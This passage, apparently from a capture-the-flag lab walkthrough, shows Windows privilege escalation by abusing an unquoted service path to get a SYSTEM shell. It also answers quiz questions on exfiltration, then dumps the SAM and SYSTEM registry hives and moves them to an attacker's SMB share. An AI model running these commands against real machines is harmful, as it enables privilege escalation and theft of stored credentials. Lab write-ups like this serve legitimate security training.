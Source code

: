 **Unquoted Service Path Exploit**

vulnerable service path: `C:\Program Files (x86)\System Explorer\System Explorer\service\SystemExplorerService64.exe`

copy wrapper to `C:\Program Files (x86)\System Explorer\System.exe`

    copy %TEMP%\wrapper-exec.exe "C:\Program Files (x86)\System Explorer\System.exe"

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649089068731_image.png)


Stop/Start Service

    sc stop SystemExplorerHelpService
    sc start SystemExplorerHelpService
![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649089151604_image.png)


Returns `nt authority/system` shell:

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649089181854_image.png)



## Task 44  Exfiltration Exfiltration Techniques & Post Exploitation

**Answer the questions**


Is FTP a good protocol to use when exfiltrating data in a modern network (Aye/Nay)?

    Nay

For what reason is HTTPS preferred over HTTP during exfiltration?

    encryption


**Save SAM/SYSTEM Files**

    reg.exe save HKLM\SAM sam.bak
    reg.exe save HKLM\SYSTEM system.bak

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649089391345_image.png)


Transfer to attacking machine via SMB Share

NOTE: *System error 1312 can usually be solved by connecting using an arbitrary domain. For example, specifying* `/USER:domain\user` *rather than just the username. The same SMB server will still work here; however, Windows sees it as a different user account and thus allows the new connection.*

reestablish with: `net use \\10.50.91.32\share2 /USER:user s3cureP@ssword`

move files:

    move sam.bak \\10.50.91.32\share2\sam.bak
    move system.bak \\10.50.91.32\share2\system.bak
